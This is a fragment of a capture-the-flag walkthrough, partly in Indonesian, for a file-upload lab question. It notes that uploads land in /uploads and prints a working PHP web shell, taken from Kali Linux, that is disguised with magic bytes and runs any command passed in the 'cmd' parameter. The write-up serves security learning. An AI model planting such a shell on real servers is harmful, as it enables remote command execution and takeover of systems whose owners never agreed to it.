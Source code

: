 ![6fc7281b9f43b120870d2661a7f33cc4.png](./_resources/4e66d9a56752494a974331937c6adcc0.png)


### Q3 : Bypass the filter and upload a reverse shell. In which directory are the uploaded files stored?

> Common upload directory list :
> - /uploads
> - /images
> - /media
> - /resources

File yang di upload berada pada `/uploads/`.

Karena lokasi file yang di upload sudah diketahui, kita bisa mencoba untuk meng-upload webshell. Saya menggunakan webshell bawaan dari Kali Linux, terdapat pada `/usr/share/webshells/`

```
<MAGICBYTES>
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```

